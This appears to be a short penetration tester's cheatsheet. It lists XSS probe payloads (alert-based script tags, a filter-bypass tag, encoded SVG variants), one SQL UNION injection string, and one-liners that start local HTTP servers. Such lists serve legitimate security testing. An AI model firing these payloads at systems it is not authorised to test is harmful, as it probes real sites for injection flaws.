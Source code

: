 # d15rup7or cheatsheet

## Table of contents
* ![WebApps](#webapps)
  * ![XSS](#XSS)
  * ![SQL Injection](sql-injection)
* ![Useful commands](#useful-commands)
  * ![HTTP Server]()


## WebApps[⤴](#table-of-contents)

### XSS
All purpose
```
"><script>alert(document.cookie)</script>
"><script>alert(1)</script>
'; alert(1); var foo='
javascript:alert(1);
<scr<script>ipt>alert(1)</script>
```
### SQL Injection
`' union select null, null, null, null;--`

SVG script with HTML encoding
```
<svg><script>&#97;lert(1)</script></svg>
<svg><script>&#x61;lert(1)</script></svg>
<svg><script>alert&NewLine;(1)</script></svg>
<svg><script>x="&quot;,alert(1)//";</script></svg>
```

## Useful commands[⤴](#table-of-contents)
### HTTP Server
#### Python
```
python2 -m SimpleHTTPServer -p
python3 -m http.server
```
#### Ruby
```
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start”
```
#### PHP
```
php -S 0.0.0.0:8888
```
